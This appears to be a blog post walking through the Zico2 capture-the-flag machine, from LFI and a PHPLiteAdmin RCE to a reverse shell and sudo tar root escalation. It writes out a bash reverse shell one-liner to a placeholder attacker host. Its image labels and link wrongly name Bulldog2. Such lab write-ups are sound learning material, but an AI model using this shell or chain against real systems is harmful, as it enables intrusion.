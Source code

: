 ```yaml
---
layout: post
title: Zico2 Walkthrough
published: true
---
```

Here we go. Walkthrough for [Zico2]([Vulnhub](https://www.vulnhub.com/entry/bulldog-2,246/)) is happening in 3....2....1.


 
      ****Spoiler Alert****          ****Spoiler Alert****




For me this was a sleeper of a CTF. I had the box right up to a low privilege shell in a matter of minutes, but popping a shell and escalating from there took much longer than I anticipated. It was a very informative and fun VM. Let's get to crack'n!

Initial Nmap shows HTTP, SSH, & RPC:

![Bulldog2 NmapOutput]({{ site.url }}/images/Zico2/nmap.JPG)

Let's see what's showing up on HTTP:

![Bulldog2 Base]({{ site.url }}/images/Zico2/base_page.JPG)

Zico's Shop? Looks ? Questionable...  
So looking at the source here shows us the following:  
![Bulldog2 Source]({{ site.url }}/images/Zico2/basepage_source_lfi.JPG)  

Let's see if view.php is susceptible to a Local File Inclusion (LFI) vulnerability here:  
![Bulldog2 LFI]({{ site.url }}/images/Zico2/lfi.JPG)  

Bingo! A small win, but a crucial building block for later on. Let's ennumerate a little more using Nikto & Directory Buster:  
![Bulldog2 Nikto]({{ site.url }}/images/Zico2/nikto.JPG)
![Bulldog2 Dirb]({{ site.url }}/images/Zico2/dirb.JPG)  

Ok, dirb gave us quite a bit here to take a look at.  

If we browse to the /dbadmin directory we're hit with directory browsing with a single test_db.php file, and going to that file we see a login for a PHPLiteAdmin v1.9.3 instance.  
![Bulldog2 PHPLiteAdmin]({{ site.url }}/images/Zico2/phpliteadmin.JPG) 

A quick Google shows us that the default password for this software is "admin". In this particular instance it is not changed after installation.  
Once logged in I was able to find two hashes for a "root" and "zico" account. They cracked fairly easily via Hashcat. Unfortunately I was not able to find any uses for these and it looks like these were red herrings <*)))><  

Not seeing anything obvious here let's search Exploit-DB:
![Bulldog2 Sploit]({{ site.url }}/images/Zico2/sploit.JPG)  

That's more like it, matching our version at 1.9.3, we see an RCE right up our alley.  

The RCE is pretty straight-forward. Creating a database with the .php extension in this version of PHPLiteAdmin, will not change the extension. So if we create one of these databases, create a table with PHP code, and use our previously found LFI to trigger the database file, the PHP code is interpreted. Let's see if we can actually make this work with a simple PHPInfo statement:  

![Bulldog2 Sploit_Test]({{ site.url }}/images/Zico2/exploit_test.JPG)  

Perfect. Going from a simple PHPInfo command to uploading a shell took a bit longer to figure out syntax-wise but everything's eventual:  

![Bulldog2 Shell_Up]({{ site.url }}/images/Zico2/shell_upload.JPG)  

This is a simple Bash script with the following quick shell syntax:  
	_bash -i >& /dev/tcp/x.x.x.x/PORT 0>&1_ 
Triggering the reverse shell in the same way gives us low privilege access to the www-data account. After the shell was popped, I upgraded to PTY via:  
	_python -c 'import pty; pty.spawn("/bin/bash")'_
Poking around via the usual checks didn't turn up much. We have read access to many files in /home/zico though. I wonder if there are any passwords I can use here for additional escalations?  

![Bulldog2 WP]({{ site.url }}/images/Zico2/wp-config.JPG)  

Interesting. The wp-config.php file reveals that Zico chose his user account for the WordPress installation. Lets dump our current shell and SSH into his account to check sudo privileges:

![Bulldog2 Sudo]({{ site.url }}/images/Zico2/zico_sudo.JPG)  

Cool. Tar & Zip can be run as root with no password checks. I'm pretty sure this is the escalation path at this point, but how can we escalate with just these?  

I wasn't sure which one to focus on and so decided to check the .bash_history. There was evidence of Zico running _sudo -u root /bin/tar --usage_ so that's where we need to look!  

Checking the usage switch, I saw the _--to-command_ switch. This switch will take the contents of a tar'd file and run the specified commands against each line of the file. Googling a few examples I created another reverse shell Bash script similar to the one from earlier, tar'd the file, setup my NetCat listener on my attacker machine and ran the following:  

![Bulldog2 Trigger_Root]({{ site.url }}/images/Zico2/tar-command.JPG)  
![Bulldog2 Root_Shell]({{ site.url }}/images/Zico2/root_shell.JPG)  

Boom! Let's grab our flag:  

![Bulldog2 Flag]({{ site.url }}/images/Zico2/flag.JPG)

It's Adventure Time!! | (• ◡•)| (❍ᴥ❍ʋ)
